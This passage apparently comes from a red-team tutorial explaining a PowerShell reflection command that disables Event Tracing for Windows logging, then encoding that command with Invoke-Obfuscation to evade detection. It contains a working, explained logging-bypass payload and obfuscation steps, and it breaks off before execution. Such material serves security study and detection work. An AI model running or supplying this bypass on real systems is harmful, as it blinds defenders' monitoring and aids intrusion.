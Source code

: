 ## <span style="color:lightgreen">Understanding the command</span>

This command is used to modify the behavior of the Event Tracing for Windows(ETW) in PowerShell. Specifically, it sets a private, static field within the *System.Management.Automation.Tracing.PSEtwLogProvider* class called `"m_enabled"` to true, `0` indicates that the initialization of ETW is disabled.

Here is a breakdown of the command and what each part does:

1. `[Reflection.Assembly]::LoadWithPartialName('System.Core')` loads the `System.Core` assembly into memory.
2. `.GetType('System.Diagnostics.Eventing.EventProvider')` retrieves the `EventProvider` type from the loaded assembly.
3. `.GetField('m_enabled','NonPublic,Instance')` retrieves the `m_enabled` field of the **EventProvider** type, which determines whether event tracing is enabled for that provider.
4. `.SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)` sets the `m_enabled` field of the PowerShell ETW provider to `0` (disabled). This prevents PowerShell from logging events to the Windows Event Log or other ETW consumers.

## <span style="color:lightgreen">Patching ETW</span>

We have already learned how to patch PowerShell scripts manually. I will explain how to obfuscate Powershell using **Invoke-Obfuscation** for this example. I already have this setup on my Commando-VM. 

+ First thing is that we can launch **Invoke-Obfuscation**

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/c642ce31-8cd8-49f4-a70f-6d5ce9dd2a06)

+ We can set our payload and use AES encryption to encrypt our payload.

```powershell
Invoke-Obfuscation> SET SCRIPT BLOCK [Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)

Invoke-Obfuscation> ENCODING
Invoke-Obfuscation> ENCODING\5
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/a3c9c816-38ab-4582-b72c-5005e1f85193)

+ The encrypted payload will be visible at the end of the screen.

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/9f11eac3-2246-43ad-8170-962a1dcc1e85)

+ Now we can execute the payload. Before doing that, we need to understand why we have encrypted the payload and what the payload does. First, lets directly execute the payload.

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/5a6c41bb-91dc-46eb-bb0d-4c7528e87721)
